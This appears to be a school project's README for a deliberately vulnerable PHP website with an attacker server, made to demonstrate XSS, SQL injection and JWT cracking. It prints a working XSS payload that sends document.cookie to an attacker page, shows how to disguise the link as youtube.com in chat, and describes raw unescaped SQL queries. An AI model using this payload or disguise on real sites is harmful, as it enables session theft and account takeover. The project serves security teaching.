 # XSS and MySQLi vulnerability website
> Made for school project

## Table of Contents
1. [Installation](#installation)
2. [Attacks](#attacks)
3. [About](#about)
4. [How does it work?](#how-does-it-work)

## Installation

### Requirements
1. XAMPP
2. Node.js >= v18.x.x
3. NPM >= 8.19.2

### Installation steps

#### Victim's PC
1. Install XAMPP
2. Open XAMPP's ``htdocs folder``
3. Create folder called ``XSS_Example`` and Open it
4. Clone this repo ```git clone https://github.com/Lukeuke/xss_showcase.git``` or download ZIP and extract into the following folder
5. Create database called ``xss_attack_db`` and import ``xss_attack_db.sql``
6. Open your website on your browser. Url will be probably ``localhost/XSS_Example`` if you did all the steps correctly
7. Then select the ``victim`` folder

#### Attacker's PC
1. Make sure you have ``NODE.js`` and ``NPM`` installed
2. Go to ``attacker`` folder in your cloned repo in htdocs
3. Open Console/Terminal and type ```npm i``` or ```npm install```
4. After this ``node_modules`` folder should be created
5. Open Console/Terminal and type ``ipconfig`` and grab your local network IP. It will be most probably Ethernet or Wireless Adapter and IP probably be something like ``192.168.x.x``
6. In attacker folder open in your code editor of choice file ``server.js`` and change this section to your matching local network IP
```js
36. app.listen(3000, '192.168.1.100'); // Change this -> '192.168.1.100'
```
7. Do the same with ``index.html`` Open and change to your local IP in 22 line.
8. ```fetch("http://x.x.x.x:3000/"``` change only this where is ``x``
9. Run the server. In Console/Terminal type ``node server.js``

##### If you did all the steps correctly you should have both attacker and victim page running

## Attacks

### XSS
>hint: Products search is vulnerable for XSS attack. try typing in search input: <script>alert('XSS')</script>

### MySql Injection
> Try to find one. There are RAW sql queries. Not escaped.

### JWT Signature bruteforce
> install https://github.com/lmammino/jwt-cracker and try to bruteforce the JWT Signing Key

## About
This project shows how can you grab someones JWT token by XSS attack. If your victim is logged in you simply sends them:
  
  http://localhost/XSS_example/victim/products.php?search=%3Cscript%3Ewindow.location.replace(`http://localhost/XSS_example/attacker/index.html?${document.cookie}`)%3C/script%3E

or if you are using chat app that supports markdown you can embed this link so its more hidden, like this:
  
  ```md
[youtube.com](http://localhost/XSS_example/victim/products.php?search=%3Cscript%3Ewindow.location.replace(`http://localhost/XSS_example/attacker/index.html?${document.cookie}`)%3C/script%3E)
  ```

on the chat he will see that the link is actually the youtube.com but in reality it grabs his token and sends it to you. Example how it will look:

[youtube.com](http://localhost/XSS_example/victim/products.php?search=%3Cscript%3Ewindow.location.replace(`http://localhost/XSS_example/attacker/index.html?${document.cookie}`)%3C/script%3E)

## How does it work?
  It injects the <script></script> tag into your DOM
  and then executes JavaScript Code which is:
  
  ```js
  window.location.replace(`http://localhost/XSS_example/attacker/index.html?${document.cookie}`)
  ```
  
  it replaces your URL with attackers website and grabs your cookies from vulnerable website.
  In cookies are stored JWT.
  If the attacker have your JWT then also have access to your whole account.
